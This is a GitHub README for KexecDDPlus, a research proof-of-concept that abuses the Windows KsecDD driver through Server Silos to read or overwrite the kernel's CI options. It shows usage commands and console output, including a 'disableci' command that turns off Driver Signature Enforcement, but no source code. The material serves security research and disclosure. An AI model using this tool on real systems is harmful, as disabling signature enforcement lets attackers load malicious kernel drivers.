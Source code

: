 # KexecDDPlus

This proof-of-concept is the result of a research project that aimed at extending the work of [@floesen_](https://x.com/floesen_) on the KsecDD Windows driver.

It relies on Server Silos to access the KsecDD driver directly, without having to inject code into LSASS. This capability therefore allows it to operate even on systems on which LSA Protection is enabled.

**Tested on:**

- Windows 11 23H2 (OS Build 22631.4317)
- Windows 10 22H2 (OS Build 19045.4894)

## Disclaimer

> [!WARNING]
> This PoC can only be executed **4 times**, before crashing the kernel!

Due to the way the IOCTL `IOCTL_KSEC_IPC_SET_FUNCTION_RETURN` is handled by the KsecDD driver, this PoC can only be used 4 times. At the 5th execution, the driver will attempt to free the user-supplied buffer as if it were allocated in a kernel pool. This operation is invalid, and therefore will cause a Bug Check, *a.k.a.* a Blue Screen. To run the exploit again, without crashing the kernel, a machine reboot will be required.

## Usage

```console
C:\Temp>KexecDDPlus.exe

 Usage:
     KexecDDPlus.exe <CMD> [<ARGS>]

 Query the CI options value:
     KexecDDPlus.exe queryci
 Set the CI options value to 0:
     KexecDDPlus.exe disableci
 Set the CI options value:
     KexecDDPlus.exe setci <VALUE>
```

**Query the CI options value**

```console
C:\Temp>KexecDDPlus.exe queryci
[+] Silo created and initialized (path is \Silos\764).
[+] Process forked (child pid is 2740).
[+] Connected to child process!
[+] Query CiOptions request OK, current value is: 0x00000006
All done.
```

**Disable Driver Signature Enforcement (DSE) - Set CI options to 0**

```console
C:\Temp>KexecDDPlus.exe disableci
[+] Silo created and initialized (path is \Silos\768).
[+] Process forked (child pid is 5396).
[+] Connected to child process!
[+] Disable CI request OK
All done.
```

**Set the value of CI options**

```console
C:\Temp>KexecDDPlus.exe setci 6
[+] Silo created and initialized (path is \Silos\772).
[+] Process forked (child pid is 9012).
[+] Connected to child process!
[+] Set CiOptions request OK
All done.
```

## Authors

- Clément Labro
    - Mastodon: [https://infosec.exchange/@itm4n](https://infosec.exchange/@itm4n)
    - GitHub: [https://github.com/itm4n](https://github.com/itm4n)
- Romain Melchiorre
    - Twitter/X: [https://x.com/PMa1n](https://x.com/PMa1n)
    - Mastodon: [https://infosec.exchange/@pmain](https://infosec.exchange/@pmain)
    - GitHub: [https://github.com/PMain](https://github.com/PMain)

## Credit

- [@floesen_](https://x.com/floesen_) - [KExecDD](https://github.com/floesen/KExecDD)
- Claudio Contin - [LSASS rings KsecDD ext. 0](https://tierzerosecurity.co.nz/2024/04/29/kexecdd.html)
- James Forshaw ([@tiraniddo](https://infosec.exchange/@tiraniddo)) - [NtObjectManager](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools)
- Lucas Di Martino - [Reversing Windows Container, episode I: Silo](https://blog.quarkslab.com/reversing-windows-container-episode-i-silo.html)
- Lucas Di Martino - [Reversing Windows Container, episode II: Silo to Server Silo](https://blog.quarkslab.com/reversing-windows-container-part-ii-silo-to-server-silo.html)
- Axel Souchet ([@0vercl0k](https://twitter.com/0vercl0k)) - [rp++](https://github.com/0vercl0k/rp)
